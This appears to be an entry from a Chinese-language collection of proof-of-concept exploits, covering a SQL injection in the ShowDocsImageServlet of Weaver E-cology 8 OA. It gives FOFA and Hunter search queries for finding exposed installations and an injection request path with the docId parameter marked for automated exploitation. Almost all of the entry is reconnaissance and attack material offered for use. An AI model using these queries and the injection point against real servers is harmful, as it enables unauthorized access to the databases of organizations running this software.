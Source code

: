 # 泛微OA E-cology 8 ShowDocsImageServlet SQL注入漏洞

## 网络测绘

fofa: app="泛微-OA（e-cology）" && body="ecology8"

hunter: app.name="泛微 e-cology OA"&&web.body="ecology8"

## POC / EXP

```
/weaver/weaver.docs.docs.ShowDocsImageServlet?docId=1*
```